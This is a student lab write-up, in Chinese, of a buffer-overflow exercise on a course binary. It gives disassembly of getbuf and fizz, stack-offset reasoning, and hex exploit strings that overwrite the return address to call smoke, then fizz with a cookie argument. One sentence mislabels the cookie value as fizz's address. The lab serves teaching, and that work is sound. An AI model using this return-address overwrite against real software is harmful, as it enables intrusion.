

# Exp3

> SA25011052 刘睿博

首先 通过makecookie获取ID：

```bash
$ ./makecookie SA25011052
0x36d04c14
```

## candle

```assemble
08048fe0 <getbuf>:
 8048fe0: 55                    push   %ebp
 8048fe1: 89 e5                 mov    %esp,%ebp
 8048fe3: 83 ec 18              sub    $0x18,%esp
 8048fe6: 8d 45 f4              lea    -0xc(%ebp),%eax
 8048fe9: 89 04 24              mov    %eax,(%esp)
 8048fec: e8 6f fe ff ff        call   8048e60 <Gets>
 8048ff1: b8 01 00 00 00        mov    $0x1,%eax
 8048ff6: c9                    leave
 8048ff7: c3                    ret
 8048ff8: 90                    nop
 8048ff9: 8d b4 26 00 00 00 00  lea    0x0(%esi,%eiz,1),%esi
```

根据反汇编结果，输入buffer的结果存放在`%ebp-0xc`，返回地址存在`%ebp+0x4`，因此将输入的第17～20字节替换为smoke的起始地址即可`0x08048e20`。

---
exploit.txt：

```text
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 20 8e 04 08

```

将上一部分的函数起始地址替换成fizz的`0x36d04c14`。

```assemble
08048dc0 <fizz>:
 8048dc0: 55                    push   %ebp
 8048dc1: 89 e5                 mov    %esp,%ebp
 8048dc3: 53                    push   %ebx
 8048dc4: 83 ec 14              sub    $0x14,%esp
 8048dc7: 8b 5d 08              mov    0x8(%ebp),%ebx
 8048dca: c7 04 24 01 00 00 00  movl   $0x1,(%esp)
 8048dd1: e8 ca fb ff ff        call   80489a0 <entry_check>
 8048dd6: 3b 1d cc a1 04 08     cmp    0x804a1cc,%ebx
 8048ddc: 74 22                 je     8048e00 <fizz+0x40>
 8048dde: 89 5c 24 04           mov    %ebx,0x4(%esp)
 8048de2: c7 04 24 98 98 04 08  movl   $0x8049898,(%esp)
 8048de9: e8 76 f9 ff ff        call   8048764 <printf@plt>
 8048dee: c7 04 24 00 00 00 00  movl   $0x0,(%esp)
 8048df5: e8 aa f9 ff ff        call   80487a4 <exit@plt>
 8048dfa: 8d b6 00 00 00 00     lea    0x0(%esi),%esi
 8048e00: 89 5c 24 04           mov    %ebx,0x4(%esp)
 8048e04: c7 04 24 29 9a 04 08  movl   $0x8049a29,(%esp)
 8048e0b: e8 54 f9 ff ff        call   8048764 <printf@plt>
 8048e10: c7 04 24 01 00 00 00  movl   $0x1,(%esp)
 8048e17: e8 c4 fc ff ff        call   8048ae0 <validate>
 8048e1c: eb d0                 jmp    8048dee <fizz+0x2e>
 8048e1e: 89 f6                 mov    %esi,%esi
```

在fizz函数中，将`%ebp+0x8`的值与Cookie进行比较，因此需要将Cookie放入输入的第25~28字节

---
exploit.txt：

```text
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 c0 8d 04 08 00 00 00 00 14 4c d0 36

```


